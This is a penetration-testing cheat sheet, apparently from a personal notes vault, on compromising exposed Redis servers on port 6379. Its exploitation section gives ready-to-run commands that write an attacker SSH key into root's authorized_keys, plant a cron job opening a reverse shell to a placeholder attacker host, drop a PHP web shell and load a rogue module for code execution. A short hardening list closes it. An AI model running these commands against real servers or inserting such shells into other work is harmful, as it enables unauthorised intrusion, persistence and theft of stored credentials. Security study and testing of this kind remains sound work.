

# 15 - Redis (Port 6379) Pentesting

## 1. Executive Summary

Redis is an in-memory key-value store on **TCP 6379**. Historically it bound to all interfaces with **no authentication**, making an exposed instance a near-guaranteed host compromise: attackers abuse `CONFIG SET` + `SAVE` to write arbitrary files (SSH keys, cron jobs, web shells) or use `SLAVEOF`/module loading for direct RCE. RESP is plaintext, so even `nc` works as a client.

## 2. Protocol Overview

RESP (REdis Serialization Protocol) over plaintext TCP. Data persists to disk as RDB snapshots (`dir` + `dbfilename` control location/name) or AOF. `CONFIG SET` reconfigures the server at runtime; replication and loadable modules add further attack vectors.

## 3. Enumeration

```bash
nmap -p6379 -sV --script redis-info <IP>
redis-cli -h <IP>           # no auth?
redis-cli -h <IP> INFO
redis-cli -h <IP> CONFIG GET dir
```
`-NOAUTH Authentication required` means a password is set (try `AUTH <pass>` / brute).

## 4. Exploitation

### 4.1 SSH Key Injection (write to ~/.ssh)
```bash
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") | redis-cli -h <IP> -x set k
redis-cli -h <IP> config set dir /root/.ssh/
redis-cli -h <IP> config set dbfilename authorized_keys
redis-cli -h <IP> save
ssh root@<IP> -i id_rsa
```

### 4.2 Cron Reverse Shell
```bash
echo -e "\n\n*/1 * * * * root bash -c 'sh -i >& /dev/tcp/<ATT>/4444 0>&1'\n\n" | redis-cli -h <IP> -x set k
redis-cli -h <IP> config set dir /var/spool/cron/crontabs/
redis-cli -h <IP> config set dbfilename root
redis-cli -h <IP> save
```

### 4.3 Web Shell
```bash
redis-cli -h <IP> set s "<?php system(\$_GET['c']);?>"
redis-cli -h <IP> config set dir /var/www/html/
redis-cli -h <IP> config set dbfilename shell.php
redis-cli -h <IP> save
```

### 4.4 Module Load RCE (non-root / modern)
Set attacker as master, sync a malicious `.so`, then `MODULE LOAD`:
```bash
redis-rogue-server --rhost <IP> --lhost <ATT>
```

## 5. Mermaid Attack Flow


## 6. Post-Exploitation
- Dump keyspace: session tokens, password-reset links, cached creds, API keys.
- Persistence via injected cron/SSH key or modified `redis.conf`.

## 7. Defense & Hardening
1. `requirepass` / ACLs (Redis 6+); never expose unauthenticated.
2. `bind 127.0.0.1`; firewall 6379.
3. `rename-command CONFIG ""`, disable `MODULE`; run as low-priv user (not root).
4. Enable protected-mode.

## 8. Chaining Opportunities
- SSRF (gopher/dict) → tunnel `CONFIG SET` to a localhost Redis → RCE. See **[[Server-Side Request Forgery (SSRF)]]**.
- Foothold → **[[08 - Linux Privilege Escalation]]**.

## 9. Related Notes
- [[16 - Redis — Unauthenticated Access, RCE via Config Set]]
- [[19 - Memcache (Port 11211) Pentesting]]
- [[14 - MongoDB (Ports 27017-27018) Pentesting]]

## 10. Tools
`redis-cli`, `nmap` redis-info, `redis-rogue-server`, `nc`.
